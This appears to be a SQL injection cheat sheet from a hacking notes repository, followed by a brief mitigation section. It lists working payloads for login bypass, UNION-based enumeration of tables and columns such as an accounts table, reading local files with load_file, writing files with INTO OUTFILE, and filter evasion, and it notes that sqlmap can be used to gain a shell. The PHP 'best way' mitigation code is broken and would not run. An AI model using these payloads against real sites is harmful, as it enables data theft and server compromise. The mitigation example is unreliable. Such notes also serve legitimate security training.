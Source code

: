 * Try to login using SQL statements or symbols (eg. **'** or **%27**)
* Comment the rest of the query using **#** , **%23** , **--** , **/*** , **//** 
* If you think there is some kind of client side filtering, use Burp Proxy
* To read database information:
  * **Order By _n_** - Iterate over **n** to find out the number of columns in table
  * **Union Select 1,2,3,...,n** - Allows you to check which columns are getting displayed by the site
  * **database()** - Name of the database
  * **user()** - User of the server
  * **version()** - OS version of the server
  * **load_file('_path_')** - Load local file
  * **Union Select null, _code_, null Into Outfile '_filePath_'** - Write into file (useful with local file vuln)
  * **Union Select 1, table_name, null, null, 5 From information_schema.tables** - Name of all the tables in the SQL
  * **Union Select 1, table_name, null, null, 5 From information_schema.tables Where table_schema = "owasp10"** - Name of all the tables in owasp10 database
  * **Union Select 1, column_name, null, null, 5 From information_schema.columns Where table_name = "accounts"** - Name of all the columns in accounts table
  * If site doesnt iterate through all results from the query use **limit**:
    * **Union Select table_name,2 From information_schema.tables Limit 1,2** - Iterate through results 1 by 1.
* Use Burp Decoder to encode query to HEX (0x...)
* Use **+** instead of SPACE
* Use different cases to avoid filters
* In a Blind SQL Injection, try to send a true and false value to see how the page behaves
  * True - **and 1=1** or **order by 1**
  * False - ** and 1=0** or **order by 10000000**

### Auto SQL Injection
* **$ sqlmap -u _"URL"_** - Find SQL injections automatically
* We can get shell with **SQLMap**

### Mitigation
* [Fast way](https://github.com/KevinSantos/Hacking/blob/master/sqlInjectionMitigation.php)
* Best way:
   ```php
   <?php
   $hackerInput = "admin' union select #";

   prepare("SELECT * FROM accounts WHERE username = ?);
   execute(array('admin' union select #');
   ?>
   ```
